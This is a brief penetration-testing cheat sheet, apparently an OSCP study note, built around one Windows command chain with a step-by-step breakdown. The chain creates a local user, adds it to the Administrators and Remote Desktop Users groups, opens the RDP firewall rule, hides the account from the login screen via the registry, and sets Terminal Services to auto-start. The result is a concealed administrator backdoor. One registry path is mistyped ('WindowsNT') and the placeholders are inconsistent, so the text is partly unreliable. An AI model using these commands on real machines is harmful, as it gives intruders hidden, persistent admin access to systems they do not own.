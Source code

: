 # Enable RDP in one line CMD

This is very helpful during OSCP.

## CMD

net user /add (Username) <Password> && net localgroup administrators <Username> /add & net localgroup "Remote Desktop Users" <Username> /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <Username> /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

####Adding User: 
net user /add <<Username>> <<Password>>

#### Adding User in Administrator Group:
net localgroup administrators <<Username>> /add

#### Adding user in Remote Desktop Users:
net localgroup "Remote Desktop Users" <<Username>> /add

#### Opening Port in Local Firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### Hiding User from Window Login Screen:
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 

#### Setting Terminal Service in Startup Mode:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### Setting Terminal Service in Auto Mode:
sc config TermService start= auto 
